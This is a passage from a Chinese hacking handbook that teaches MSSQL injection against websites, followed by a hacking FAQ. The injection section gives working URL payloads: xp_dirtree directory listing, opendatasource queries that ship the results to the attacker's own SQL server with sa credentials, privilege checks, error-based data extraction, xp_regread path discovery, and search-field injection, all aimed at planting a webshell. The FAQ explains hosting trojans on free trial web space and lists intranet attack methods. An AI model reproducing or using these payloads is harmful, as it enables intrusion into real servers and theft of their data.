这是将 C 盘目录下面的当前文件和目录插入到 temp 表中。最后一步就是把这个 temp 表中的内容反向连接插入到我们的本地数据库服务器中建好的表里，输入语句如下：

```text
http://www.nohack.com/list.asp?id=1334;insert into opendatasource('sqloledb','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select * from temp--
```

最后在本地的查询分析器中输入 **Select * from test.dbo.temp1**，即可从这张表中看到网站的目录结构，如图 89 所示。



图89

发现其中一个名为 inetpub 的目录疑似 WEB 目录，我们进一步来查看这个目录下的子目录情况。先在注入点执行命令 **Delete temp**，把 temp 表清空，以免上一次装载到表中的数据对我们形成干扰。同样的，在本机查询分析器里也要执行一次 **Delete temp1**，将 temp1 表清空，这样查看结果时会更清晰，如图 90 所示。

本地和远程的表被清空后，执行 SQL 语句装入数据，先在注入点执行语句：

```text
http://www.xxx.com/list.asp?id=1334;insert into temp(id,num1,num2) exec master.dbo.xp_dirtree 'c:\\inetpub',1,1--
```

与上一次在注入点执行的查目录语句相比，这一次目录变了，上次查询的是 C 盘根目录“c:\”，这次查询的是 `'C:\Inetpub'`。



图90

接下来把 temp 表中的内容导出到我们本地主机上建立的数据库，使用语句：

```text
http://www.xxx.com/list.asp?id=1334;insert into opendatasource('sqloledb','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select * from temp--
```

再到本地查询分析器里用 **Select * from temp1** 命令查看传过来的结果，如图 91 所示。



图91

WWWroot 是 WEB 目录常用的名称，很可能就是它了，不过我们也需要验证一下。通常确认是不是网站 WEB 目录的方法一般是找一个不常见的文件名，看网页上是否存在，如果存在，就基本确定是该目录。

继续重复上面的过程，先清除注入点和本地查询分析器的表内容，然后将查询语句装入注入点的表，使用语句如下：

```text
http://www.xxx.com/list.asp?id=1334;insert into temp(id,num1,num2) exec master.dbo.xp_dirtree 'C:\Inetpub\wwwroot'
```

请注意：这次查询的目录变成了 `'C:\Inetpub\wwwroot'`。然后使用以下语句：

```text
http://www.xxx.com/list.asp?id=1334;insert into opendatasource('sqloledb','server=61.138.xxx.xxx;uid=sa;pwd=111111;database=test').test.dbo.temp1 select * from temp--
```

导回 temp1 到本地数据库后使用 **Select * from temp1** 查看内容，如图 92 所示。分析一下列出的所有文件，`nohack.txt` 这个文件名字挺特殊的，一般网站没有，去访问一下网页，看看有没有这个文件，如图 93 所示。

这个文件的确存在，证实了我们的推断，`C:\Inetpub\wwwroot` 目录有很大可能就是 WEB 目录，下一步就可以按照其它章节介绍的备份 WEBSHELL 的方法往这个目录写小马了。

## 18 如何通过 MSSQL 获得服务器相关情况？

在得到 MSSQL 数据库的注入点后不要盲目地开始注入，首先要搞清楚一些信息，比如自己的身份，这关系到所拥有的权限。如果是 SA 权限，直接执行系统命令就可以了；是 DB_OWNER 权限再去想查表、备份 WEBSHELL 之类的方法。



图92



图93

首先我们得到数据库服务器的版本，在浏览器输入：`http://www.xxx.com/down.asp?id=131 and (select @@version)>0`，有一些版本比较低的 MSSQL 数据库程序可能有溢出漏洞。

接着是判断用户的身份，可以输入以下语句：

```text
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('serveradmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('setupadmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('securityadmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('diskadmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_SRVROLEMEMBER('bulkadmin'))--
http://www.xxx.com/down.asp?id=131 and 1=(SELECT IS_MEMBER('DB_OWNER'))--
```

以上几条就是用户权限判断语句，哪一条的返回结果为正确页面，说明权限符合。最常见的是 sysadmin 和 DB_OWNER 这两种，如图 94 所示。



图94

图94中，在输入 `and 1=(SELECT IS_MEMBER('DB_OWNER'))` 时返回正确。另外，利用语句 `http://www.xxx.com/down.asp?id=131 and db_name()>0` 能获得当前具有操作权限的数据库名，返回如下，说明数据库为 `girlmeifu`。

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 'girlmeifu' 转换为数据类型为 int 的列时发生语法错误。
```

在浏览器输入语句 `http://www.xxx.com/down.asp?id=131 and user>0` 能获得当前操作的用户名，返回结果如下，说明当前数据库的用户名是 `gmbl`。

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 'gmbl' 转换为数据类型为 int 的列时发生语法错误。
```

在 SQL 注入备份 WEBSHELL 的过程中，获取 WEB 路径是至关重要的。对于 WEB 路径的获取，除了用 DIRTREE 将硬盘导入一个表，再逐个爆出目录和文件外，还可以尝试直接从注册表读取 WEB 路径。此方法成功率并不太高，但是操作很方便。WEB 目录的地址通常会保存在注册表中的 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\` 处。我们可以使用 `xp_regread` 存储过程读取其值，使用如下语句：

```text
http://www.nohack.com/down.asp?id=131;create TABLE hacktest(id int IDENTITY(1,1),paths varchar(500))
Declare @test varchar(120);
exec master..xp_regread @rootkey='HKEY_LOCAL_MACHINE',@key='SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\',@value_name='/',@value=@test OUTPUT
insert into hacktest(paths) values(@test)
```

简单解释一下这条语句，其实是执行了两条，先是建立一个名为 `hacktest` 的表，然后将注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots\` 处的值导入这个表。下面用传统的 MSSQL 注入手法爆出 `hacktest` 表中的值，我们输入：

```text
http://www.xxx.com/down.asp?id=131 and 0<>(select top 1 paths from hacktest)--
```

出错提示为：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07' [Microsoft][ODBC SQL Server Driver][SQL Server]将 varchar 值 'D:\wwwroot\hackcn' 转换为数据类型为 int 的列时发生语法错误。
```

这说明网站的目录为 `D:\wwwroot\hackcn`。不过这个方法只适用于 Windows 2000，并且没有修改过 WEB 路径。通过以上的操作，确定了网站数据库的登录身份、用户名、库名、WEB 路径，服务器的主要相关信息获取完毕。

## 19 搜索型注入应该如何查找及利用？

SQL 注入最常见的是在 URL 中出现的注入，也就是在网站的链接 `http://www.xxx.com/list.asp?id=1334` 后面检测注入点，并提交 SQL 注入语句。这是常见的注入点出现的位置，程序员在书写网站程序时对这里的安全工作也做得比较多。实际上注入点不光会在明显的 URL 调用数据库参数的位置出现，从理论上来说，凡是有查询数据库的地方都有可能出现注入。

在网站中常见的搜索功能也是用到了查询数据库的，而这一处的防护往往被一部分程序员所忽视了，如图 95 所示。



图95

搜索的过程是把你所提交的搜索关键字，作为一个参数放进 like 参数中，然后提交到数据库查询是否存在相关字的内容。在网站程序中使用的查询语句是：

```sql
select * from news where title like '%hack%'
```

这句 SQL 语句的含义是：从 news 表中查询出字段 title 内容中包含有 hack 关键字的内容。

这个语句是封装在网站程序里的，两个单引号中的关键字参数由我们在网站搜索页面提交的数据获得，我们可以进行注入的地方也正是这里。

搜索型注入利用起来有一点小麻烦，就是书写的字符长度往往写不下我们的注入语句，所以要将搜索页面改为本地提交，修改其允许的最大字符长度。

关于修改页面为本地提交的详细操作将在第三章《黑客入侵常用技巧》的第18小节“什么是本地提交？”介绍，这里就不赘述了，下面看看直接在本地建立的搜索页中提交的语句，如图 96 所示。


图96

图96中就是构建好的本地提交页面，红叉的位置是搜索提交按钮，在网站上是图片，改到本地后找不到图片的路径自然就无法正常显示，这并不影响我们的使用。

我们看到，提交检测的语句是 `1%' and 1=1 and '%'='`，第一个字符是数字 1，这是随便输入的，作用是提交一个供搜索的字符，以免程序提示你没有输入搜索关键字；后面的 `%` 是为了闭合程序代码中 LIKE 后面的第一个 `'%`；后面的 `'%'='` 是为了闭合程序中第二个 `%`。最后提交到服务器中的 SQL 语句是：

```sql
select * from news where title like '%1%' and 1=1 and '%'='%'
```

本地提交后页面返回正常，如图 97 所示。



图97

大家可以看到，同样是用 1=1 来判断正常或不正常页面，后面的“%'='%'”只是起闭合作用的“小尾巴”，我们照写就是了，注入的语句书写在 and 1=1 的位置。

例如：同样在本地提交页面中提交 1=2，看看是否返回不正常页面，语句为：`1%' and 1=2 and '%'='%'`。如果存在注入漏洞，返回的就是与 1=1 不同的页面。注入时把语句写在 and 1=1 的位置，例如查表语句：`1%' and select count(*) and '%'='%'`。

> 资深黑客渗透内幕答疑


## 家庭电脑完全自学手册


## 第二章 常见问题及解决

- 计算机基础知识相关问题
- 常见操作与系统设置问题
- 软硬件安装与使用问题
- 网络、浏览器与网页相关问题
- 办公软件与输入法相关问题
- 其他常见故障排查问题

本页主体为“常见问题及解决”的问答目录页，内容以大量条目式问题构成，覆盖电脑基础知识、操作系统、网络与办公软件等方向。

# 第二章 常见问题答疑解惑

- 1. 众多文章中提到要使用 WEB 空间，请问什么是空间？需要收费吗？怎样才能拥有和使用空间？
- 2. 我在内网中，电脑会被“黑”吗？
- 3. 有什么方法能在只知道一个电脑 IP 的情况下，对它进行入侵呢？
- 4. 黑客文章里常说的“擦屁股”清除痕迹是怎么回事？
- 5. 据说黑客有手段能刷 Q 币和钻石服务及游戏点卡之类的，这是真的吗？如何实现的？
- 6. 什么是 WebShell？它是做什么的？
- 7. 要如何开始学习黑客技术呢？
- 8. 什么是 CMD？如何使用它？
- 9. 什么是 DDoS 攻击？
- 10. 什么是域名？
- 11. 什么是 IPC$ 连接？
- 12. 黑客活动违法吗？我该怎样进行黑客技术的实践呢？
- 13. 什么是脚本？
- 14. 经常提到的“权限”是什么？
- 15. 为什么有的网站程序文件是 PHP 后缀，有的是 ASP 后缀，有的又是 ASPX 后缀，它们有什么不同？
- 16. 什么是挂马？
- 17. ADSL 路由器中的桥接模式和路由模式是怎么回事，有什么区别？
- 18. WEB 木马、网页木马、远程控制木马、后门木马有什么区别？
- 19. 什么是 ARP 欺骗？
- 20. 常见的服务与端口绑定的有哪些？
- 21. 键盘记录工具和盗号木马的使用与功能有何不同？
- 22. 有没有办法快速安装 MySQL 及 PHP、Apache 支持程序？
- 23. 哪些是入侵中最常用的 CMD 命令？

## 1. 众多文章中提到要使用 WEB 空间，请问什么是空间？需要收费吗？怎样才能拥有和使用空间？

WEB 空间即为网站页面内容在网上存放的空间。如果大家对此很难理解，那我举个身边的例子来说明。相信大家都在使用腾讯 QQ，它有两个主要的功能：一个是网络硬盘，一个是 QQ 空间，WEB 空间就类似这两者的结合。它一方面能像网络硬盘一样存储我们的一部分资料以供下载（比如你使用的灰鸽子，如果做成了网页木马的形式，到时就需要从空间中下载到远程的中马机器上运行），另一方面也能像 QQ 空间一样与整站程序结合，存储我们的网站内容，比如图片、音像、文字等，如图1所示。

空间和我们的硬盘一样，也是有容量大小分别的，小的一般 10M、50M，主流的在 100M—300M 左右，当然也有 500M 甚至上 G 的空间。空间大小的不同影响着能存储的内容容量和访问量，以及其所支持的各种功能。

WEB 空间通常都是收费的，当然也有免费的 WEB 空间，但是极少，并且有种种限制，连接也不稳定。一般来说，许多免费的 WEB 空间仅支持上传 HTML 文件，实在是不推荐大家使用免费空间。

图1

大家可不要认为和免费代理一样，有网站专门提供这种免费服务，因为 WEB 空间是要占用服务器的硬盘空间资源的，所以一般很少有“免费午餐”。对于我们临时测试整站程序或者灰鸽子时该怎么办呢？这里提供一个临时解决办法，可以去网上寻找提供有免费试用服务的空间商，通过 Google 可以搜索到，如图2所示。

图2

打开 Google 搜索“空间免费试用”，从搜索的结果来看，提供免费试用的空间服务商还是蛮多的。选择其中一个网站，先注册个会员，再申请试用空间，如图3所示。

图3

注册完毕登录网站后，进入管理中心的购买虚拟主机页面，在一排产品介绍的最下方有两个选择，一是试用，二是购买，这里当然选试用了，如图4所示。

| 产品项 | 方案1 | 方案2 | 方案3 | 方案4 | 方案5 |
|---|---|---|---|---|---|
| 多项功能/支持情况 | ✓ | ✓ | ✓ | ✓ | ✓ |
| 底部选项 | 试用 / 购买 | 试用 / 购买 | 试用 / 购买 | 试用 / 购买 | 试用 / 购买 |

（图4：主机产品对比与“试用/购买”选项）

图4

接下来弹出个选单，主要是填入你的 FTP 账号密码，要记牢哦！域名处可以随便写，注意格式写对就行了，如图5所示。

点击下一步，即得到了我们空间的关键信息，主要包括两项：一是账号和密码，另一个是相当重要的东西，就是你的空间 IP 地址或者域名，如图6所示。

这个试用空间提供的是一个 IP 地址，有些试用空间提供的是一个域名，我们只要在 IE 地址栏里输入这个 IP 地址或域名就能访问到我们的空间。账号密码和空间的 IP 地址或域名一定要记牢，我们在其它章节中需要使用到，这样才能操作 FTP 工具远程登录空间进行管理。

我们的免费试用空间申请成功后，点击“控制面板”－“虚拟主机管理”，选择我们已拥有的虚拟主机名称进入管理界面，如图7所示。

- 不同空间商提供的管理界面有所不同。

在拥有 WEB 空间后，就可以使用 FTP 工具或通过在线管理页面对 WEB 空间的内容进行管理，上传或者下载文件。这样，你的远程控制工具、网页木马和其它程序都可以被上传到空间里，并通过“你的空间被分配的 IP 或域名地址 + 文件名”的形式从 IE 访问或是下载。

比如你的空间域名为 demo.nohack.com，你上传的文件名为 GEZI.EXE，那么在 IE 浏览器中输入 `http://demo.nohack.com/GEZI.EXE` 即可将 GEZI.EXE 这个文件下载，如图8所示。

图8

这种免费试用的空间一般能用一周或更多天，如图9所示。由于是给潜在用户进行试用的，所以速度和稳定性都是相当好。当试用时间到期后，一些空间商会立刻删除掉试用账号。

图9

对于调试一些网站程序，七天的时间是足够了！如果到期，可以把试用时填写的用户名再申请一次试用，这样得到的试用域名和上次试用是一样的，鸽子能继续上线。当然这也不是长久之计，所以还是推荐大家购买 WEB 空间作为自己学习之用。

一个普通的 WEB 空间（100M 左右）一年的费用大约是 100 元左右，WEB 空间的申请和普通的网站注册用户并没有太大区别，只是需要填写的资料更详细。有些空间注册后不能马上生效，需要联系一下空间商的客服人员为你尽快开通，如果有其它使用中的问题也可尽快咨询客服。

## 2. 我在内网中，电脑会被“黑”吗？

在内网中一样是可以使用黑客技术的，可以说只要存在网络的地方，不论内网还是外网，都有黑客技术发挥的空间。而且在内网中，比起外网更会有一些便利条件。

有句话说得好，坚固的堡垒往往容易被从内部攻破，这也是安全界俗称的“外紧内松”，在网络安全中也是这样。有的公司、机构的网络安全对外做得非常严密，相当难以被入侵，可是却由于内部工作人员的安全意识淡薄，对网络共享作出了错误的配置，使得内网中的任何一台计算机都能访问到需要一定级别才可访问的网络文件夹，如图10所示。

另外，有可能由于防火墙没有正确地进行配置，屏蔽来自内网的数据包，使得内网用户能与 MSSQL 数据库服务器开放的端口连接，从而可以通过漏洞猜测密码。这种情况常常出现，因为内网为了各主机之间的正常网络连接，防火墙不得不对某些数据包“放行”，如果配置不当，这种问题的确很容易产生，如图11所示。

图10  
图11

还有，要小心病毒和恶意程序。如果自己使用的、处于内网的电脑被感染具有传染性的病毒，将会导致整个网络内的电脑都有被感染的可能，或者是被一些别有用心的人盯上，利用某些漏洞，从内网或者外网得到了控制权限，给整个网络系统造成不可估量的损失。

那么在内网中，与外网不同的真正的安全漏洞有哪些呢？现在的公司、学校等绝大部分都设立有网站，规模比较大的采用的是数据库服务器和 WEB 服务器分离的方式，这样就有两台电脑在使用中。一般正常的情况下，是 WEB 服务器处于外网，能被外部访问，而数据库服务器身处内网，不会被外界直接访问到。

从外网的视角来看，如果在 WEB 服务器安全十分完善的前提下，得到 WEB 服务器或者数据库服务器的权限都是十分困难的，而且一般情况下放有重要数据的服务器与 WEB 服务器是隔绝的，黑客即使拿下了 WEB 服务器而对数据库服务器也毫无办法。但是从内网的视角来看，请注意！数据库服务器通常是能被从内网直接访问连接的，如图12所示。

图12

由于数据库服务器要向和它处在同一内网中的那台 WEB 服务器提供数据服务，自然要开放对内网的访问权限，同时由于大多数管理员对内网安全的不够重视，数据库服务器和路由上没有设置只让 WEB 服务器访问，使得内网中的任意一台电脑都能访问到数据库服务器，这就是前面所说的内网比起外网所拥有的便利条件，如图13所示。

```txt
C:\Documents and Settings\...> ping 192.168.0.170

Pinging 192.168.0.170 with 32 bytes of data:
Reply from 192.168.0.170: bytes=32 time=7ms TTL=128
Reply from 192.168.0.170: bytes=32 time=2ms TTL=128
Reply from 192.168.0.170: bytes=32 time=3ms TTL=128
Reply from 192.168.0.170: bytes=32 time=2ms TTL=128
```

图13

假设某员工小杨对这台服务器发生了兴趣，他可以试着去猜测它的数据库访问口令。如果是弱口令，他便获得了成功，可以以数据库操作人员的身份登录到这台服务器。然后他可以查询数据库里的内容，权限足够的情况下能直接获得该服务器的 ADMIN 控制权限。

可以尝试的方法远不止暴破数据库密码这一种。

在内网中，有很多管理员在设置安全时有重大缺失，例如对于管理员账号的设置。许多情况是，管理员对于主机的密码设置是统一的，比如 OFFICE、CAIWUBU、JISHUBU，在其后加上简单的编号或 IP 地址作为区分，如 OFFICE007、OFFICE245、CAIWUBU008、CAIWUBU255 等。但是密码却是统一的，如 123456、admin 等这种弱口令。如果有人蓄意破坏，有很大可能从内网中以自己已知主机的账号和密码分布猜测其它主机的账号密码。这个思路在黑客入侵网络内的一台主机成功后，然后继续渗透整个网络时也常常采用。

以上叙述的是在内网中的成员主动的黑客行为，在内网中常常发生的还有一类被动的黑客行为，即由于安全缺陷导致一台主机被病毒感染或被人入侵后对整个网络安全构成威胁。

在 2007 年春节前后，发生过一起全国性的计算机病毒大规模爆发感染事件，一种名为“熊猫烧香”的计算机病毒利用微软编号为 MS06-014 的 ANI 漏洞感染了中国数百万台电脑，甚至连许多大型门户网站的 WEB 主机也被挂上木马，给用户造成无法估量的损失。

这种令人恐怖的传播效果很大程度上是因为内网工作人员使用的主机被首先感染了，然后这种病毒自身具有的传染性使其飞快地在内网传播，最后感染了 WEB 主机或者通过其它媒介传染给了其它计算机。

例如“熊猫烧香”在某网站传播的示意图，首先是网站编辑人员使用的计算机被感染，他在此台计算机上制作的网页内容随之被感染，在更新时带病毒的网页内容被更新到了 WEB 主机上，于是主页被挂上木马使浏览该门户的众多用户受其影响，如图14所示。

从图14的传播示意图可以看到，该门户网站不太可能被黑客直接攻克，网站编辑的个人电脑也有很强的安全保护，但结果是内网中的“邻居”被渗透，从而逆向传播使更多的电脑也被感染。

在此笔者可以负责任地说，如果没有因为内网安全问题导致的门户网站被感染病毒，使得向全国扩散造成重大影响，“熊猫烧香”只不过是我们普通人都没有听说过的、众多利用系统漏洞传播的病毒中的一个无名过客而已。

在内网中，还能使用一般外网没有条件使用的进行物理接触的方法进行黑客活动。大量机构的内在网络制度管理都是不严格的，员工可以有机会随意地接触其它员工使用的计算机，甚至是提供数据库和 WEB 服务的计算机。那么使用 U 盘拷贝木马病毒，或直接操作主机下载并执行木马病毒，利用这些木马和病毒搞破坏、窃资料，造成的损失是无法估量的。

很多初学黑客技术的朋友都是在公司将各台电脑当成了自己调试灰鸽子进行模拟入侵的试验场，这一现象暴露出内网环境存在大量安全隐患。对于内网的同网段计算机，还存在被嗅探和被 ARP 欺骗的风险，轻则造成网络不稳定，重则造成关键资料被窃取，如图15就是在内网中被嗅探到的账号和密码。

随着个人数码设备的普及，U 盘木马病毒也是大行其道。目前在内网中常常使用的黑客技术包括：IPC 连接、口令暴破、口令猜测、嗅探、ARP 欺骗、物理传播等。内网安全作为被普遍忽视的一环，应该大大加强。

## 3. 有什么方法能在只知道一个电脑 IP 的情况下，对它进行入侵呢？

